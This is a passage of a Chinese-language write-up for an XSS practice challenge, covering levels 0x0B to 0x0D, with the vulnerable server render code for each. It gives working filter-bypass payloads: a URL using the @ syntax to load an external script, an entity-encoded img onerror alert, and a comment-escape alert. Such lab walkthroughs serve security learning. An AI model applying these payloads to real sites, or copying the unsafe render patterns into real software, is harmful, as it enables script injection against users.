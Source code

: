   const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `&lt;script src="${escapeHtml(input)}">&lt;/script>`
  }
  return 'Invalid URL'
}</code></pre>

用url的@语法来进行跳转调用，`https://www.segmentfault.com@xss.haozi.me/j.js`

## 0x0B

Server code

<pre class="wp-block-code"><code>function render (input) {
  input = input.toUpperCase()
  return `&lt;h1>${input}&lt;/h1>`
}</code></pre>

HTML对大小写是不敏感的，而JavaScript对大小写敏感。

```
<img src=# onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

另一种思路是: 域名对大小写也不敏感 

## 0x0C

Server code

<pre class="wp-block-code"><code>function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '&lt;h1>' + input + '&lt;/h1>'
}</code></pre>

上题的payload可以解决。

## 0x0D

Server code

<pre class="wp-block-code"><code>function render (input) {
  input = input.replace(/&#91;&lt;/"']/g, '')
  return `
    &lt;script>
          // alert('${input}')
    &lt;/script>
  `
}</code></pre>
```
alert(1);
-->
```
